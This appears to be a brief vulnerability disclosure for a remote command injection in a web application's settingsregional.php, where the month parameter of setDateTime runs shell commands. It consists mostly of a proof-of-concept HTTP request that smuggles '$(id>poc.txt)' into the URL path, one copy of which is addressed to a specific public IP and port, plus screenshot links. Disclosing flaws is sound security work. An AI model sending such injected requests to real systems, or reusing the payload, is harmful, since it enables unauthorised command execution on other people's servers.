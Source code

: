 # `$month` parameter in the file `settingsregional.php` has a Remote Command Injection

### Description

The  parameter **$month** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

### POC

```
POST /settings/setDateTime/2008/1/1$(id>poc.txt)/1/1 HTTP/1.1
Host: XXXXXXX
```

### Example 

```
POST /settings/setDateTime/2008/1/1$(id>poc.txt)/1/1 HTTP/1.1
Host: 222.103.211.89:8004
```

![image-20250317212755457](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172127688.png)

![image-20250317212817221](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172128268.png)